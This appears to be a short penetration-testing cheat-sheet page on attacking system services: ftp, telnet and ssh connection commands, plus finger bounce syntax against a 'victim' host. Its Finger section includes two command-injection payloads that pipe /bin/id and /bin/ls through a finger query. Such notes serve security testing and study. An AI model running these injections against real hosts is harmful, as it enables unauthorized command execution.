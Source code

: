 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# System Services

## ftp

```
ftp <ip_address>
```

## Finger

Finger Bounce
    finger user@host@victim
    finger @internal@external

```
finger "|/bin/id@example.com"
```

```
finger "|/bin/ls -a /@example.com"
```

## sendmail

## Telnet

```
telnet ip_address
```
```
telnetfp
```

## ssh

```
ssh <username>@<ipaddress>
```

SSH Client programs
    tunnelier
    winsshd
    putty
    winscp